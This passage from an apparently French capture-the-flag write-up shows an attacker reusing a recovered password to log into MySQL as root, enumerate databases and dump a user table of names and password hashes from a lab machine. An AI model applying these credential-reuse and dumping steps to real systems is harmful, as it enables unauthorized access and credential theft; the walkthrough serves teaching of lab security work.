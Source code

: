 Bingo ! Sans le vouloir, Sally nous a conduit vers le mot de passe de la base de données MySQL.

### Accès à la base de données MySQL

Le mot de passe n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[sorzek@ctf4 ~]$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5591 to server version: 5.0.18

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ehks               |
| mysql              |
| roundcubemail      |
| test               |
+--------------------+
5 rows in set (0.00 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
--snip--
| information_schema | VIEWS                                 |
| information_schema | USER_PRIVILEGES                       |
| ehks               | blog                                  |
| ehks               | comment                               |
| ehks               | user                                  |
| mysql              | columns_priv                          |
| mysql              | db                                    |
--snip--
| mysql              | time_zone_transition_type             |
| mysql              | user                                  |
| roundcubemail      | cache                                 |
| roundcubemail      | contacts                              |
| roundcubemail      | identities                            |
| roundcubemail      | messages                              |
| roundcubemail      | session                               |
| roundcubemail      | users                                 |
+--------------------+---------------------------------------+
42 rows in set (0.00 sec)

mysql> select * from ehks.user;
+---------+-----------+----------------------------------+
| user_id | user_name | user_pass                        |
+---------+-----------+----------------------------------+
|       1 | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
|       2 | achen     | b46265f1e7faa3beab09db5c28739380 |
|       3 | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
|       4 | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
|       5 | sorzek    | e0a23947029316880c29e8533d8662a3 |
|       6 | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
+---------+-----------+----------------------------------+
6 rows in set (0.00 sec)

```